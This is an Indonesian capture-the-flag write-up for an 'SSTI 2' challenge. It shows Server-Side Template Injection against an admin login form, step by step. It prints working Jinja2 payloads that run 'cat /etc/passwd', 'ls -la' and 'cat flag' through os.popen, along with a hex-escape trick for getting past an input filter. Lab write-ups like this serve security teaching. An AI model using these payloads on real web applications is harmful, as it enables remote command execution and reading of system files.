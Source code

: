 # SSTI 2

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

File terkait: ![SSTI2](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d2/SSTI2.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
2. Input payload SSTI sederhana, misal: `{{7*9}}` pada field username atau password.

   ![Test Payload](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d2/SSTI2.1.png)

3. Jika output pada halaman berubah menjadi `63`, maka aplikasi rentan SSTI.

   ![Output](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d2/SSTI2.2.png)
   
4. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```

   ![Eksploitasi File](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d2/SSTI2.3.png)
   
5. Ternyata payload diatas telah terblok karena beberapa tanda, cara untuk mengelabuinya adalah menggunakan unicode.
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
   ```
   ![Berhasil](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d2/SSTI2.4.png)

6. Kita menggunakan payload lain yang dapat membaca flag tersebut
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

   ```
   ![flag](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d2/SSTI2.5.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`
